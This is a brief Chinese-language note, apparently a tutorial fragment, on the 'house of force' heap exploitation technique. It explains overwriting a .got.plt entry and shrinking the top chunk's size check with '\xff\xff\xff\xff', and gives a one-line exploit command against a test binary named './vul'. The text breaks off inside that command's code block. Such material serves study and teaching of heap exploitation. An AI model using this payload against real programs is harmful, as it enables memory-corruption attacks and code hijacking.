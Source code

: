 ## house of force

这里使用覆盖 `.got.plt` 表地址作为测试例子

请注意这里 `free@plt` 的计算, 以及 `\xff\xff\xff\xff` 修改 top chunk 的 size 大小.

```
./vul $(python -c 'print "A"*260 + "\xff\xff\xff\xff"') free@plt AAAA
